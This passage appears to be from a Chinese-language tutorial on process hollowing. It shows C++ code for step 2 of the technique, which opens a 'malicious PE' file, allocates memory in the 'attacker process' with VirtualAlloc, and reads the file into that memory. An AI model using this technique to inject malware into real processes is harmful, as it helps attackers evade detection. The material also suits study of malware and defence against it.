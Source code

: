 - 步骤 2: 打开并读取恶意 PE 镜像
    
    这个过程分为三小步：
    
    1. 使用 `CreateFileA` 获取恶意 PE 文件的句柄。
        
        C++
        
        ```
        HANDLE hMaliciousCode = CreateFileA(
            (LPCSTR)"C:\\Path\\To\\Your\\malware.exe", // 恶意 PE 文件路径
            GENERIC_READ,           // 只读访问
            FILE_SHARE_READ,        // 共享模式：允许其他进程读取
            NULL,                   // 安全属性
            OPEN_EXISTING,          // 操作：如果文件存在则打开
            0,                      // 文件属性和标志 (原文为NULL，通常设为 FILE_ATTRIBUTE_NORMAL 或0)
            NULL                    // 模板文件句柄
        );
        // if (hMaliciousCode == INVALID_HANDLE_VALUE) { /* 错误处理 */ }
        ```
        
    2. 使用 `GetFileSize` 获取恶意文件大小，并使用 `VirtualAlloc` 在当前进程（攻击者进程）中为恶意 PE 镜像分配内存。
        
        C++
        
        ```
        DWORD maliciousFileSize = GetFileSize(hMaliciousCode, NULL); // 获取文件大小
        // if (maliciousFileSize == INVALID_FILE_SIZE) { /* 错误处理 */ }
        
        PVOID pMaliciousImage = VirtualAlloc(
            NULL,                   // 系统选择分配地址
            maliciousFileSize,      // 要分配的大小 (恶意文件大小)
            MEM_COMMIT | MEM_RESERVE, // 分配类型：提交并保留 (原文 0x3000)
            PAGE_READWRITE          // 内存保护：可读可写 (原文 0x04)
        );
        // if (pMaliciousImage == NULL) { /* 错误处理 */ }
        ```
        
    3. 使用 `ReadFile` 将恶意 PE 文件的内容读入到刚刚在当前进程分配的内存中。
        
        C++
        
        ```
        DWORD numberOfBytesRead;
        if (!ReadFile(
            hMaliciousCode,         // 恶意 PE 文件句柄
            pMaliciousImage,        // 指向当前进程中分配的缓冲区的指针
            maliciousFileSize,      // 要读取的字节数
            &numberOfBytesRead,     // 接收实际读取的字节数
            NULL
        ) || numberOfBytesRead != maliciousFileSize) {
            // cout << "[!] Unable to read Malicious file into memory. Error: " << GetLastError() << endl;
            // TerminateProcess(target_pi->hProcess, 0);
            // return 1;
        }
        CloseHandle(hMaliciousCode); // 关闭恶意文件句柄
        ```
        